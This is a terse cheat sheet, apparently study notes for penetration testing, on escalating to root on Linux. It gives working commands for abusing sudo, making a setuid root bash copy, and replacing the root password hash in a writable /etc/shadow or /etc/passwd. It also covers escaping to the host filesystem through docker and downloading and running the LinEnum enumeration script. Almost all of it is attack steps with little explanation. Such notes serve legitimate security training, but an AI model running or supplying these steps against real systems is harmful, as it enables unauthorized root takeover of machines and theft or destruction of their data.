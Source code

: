 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
mkpasswd -m sha-512 password		Makes password Hash
-- replace root password hash with the one you just generated
su root								switch to root

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
openssl passwd password			      Generate password hash
-- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
su root							      switch to root

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/